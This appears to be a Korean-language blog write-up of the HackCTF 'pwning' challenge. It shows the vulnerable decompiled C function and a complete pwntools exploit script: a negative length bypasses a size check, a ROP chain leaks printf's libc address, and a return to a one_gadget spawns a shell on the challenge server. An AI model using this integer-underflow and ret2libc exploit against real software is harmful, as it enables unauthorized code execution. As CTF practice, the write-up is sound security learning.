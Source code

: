 ```yaml
---
title: "[HackCTF]pwning"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
published: false
---
```


그냥 underflow 이용해서 입력할 수 있는 공간을 늘려줄 수 있다면 쉽게 풀 수 있다.

`int $0x80` 있어서 syscall exploit인줄 알고 삽질했다.. pop 가젯이 부족해서 불가능이였다.

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4u);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

`get_n` 함수는 그냥 \n 받기전까지 입력된다. 그리고 v2가 int형이라 underoverflow를 이용해서 값을 늘려줄 수 있다. 

나는 printf를 릭해주고 libc 구한 후에 main으로 돌려서 맞는 libc의 원샷 가젯 찾아서 메인에서 리턴해줬다.

원샷은 libc 다운로드 받아서 one_gadget 돌렸다. libc는 버전 맞춰서 [printf offset](https://libc.blukat.me/?q=printf%3A020&l=libc6-i386_2.23-0ubuntu10_amd64) 구한다음에 libc base 구해줬다.

```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./pwning')
p = remote('ctf.j0n9hyun.xyz',3019)
#p = process('./pwning')
r = ROP(e)

p.sendlineafter('? ',str(-1))

payload = '\x90'*0x2c
payload += 'sung'
r.printf(e.got['printf'])
r.raw(e.symbols['main'])
payload += r.chain()
p.sendlineafter('!\n',payload)

p.recvuntil('\n')
printf = u32(p.recv(4))
log.info('printf : '+ hex(printf))
libc_base = printf - 0x049020
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('? ',str(-1))

payload2 = '\x90'*0x2c
payload2 += 'sung'
payload2 += p32(libc_base + 0x3a80c)

p.sendlineafter('!\n',payload2)
p.interactive()
```

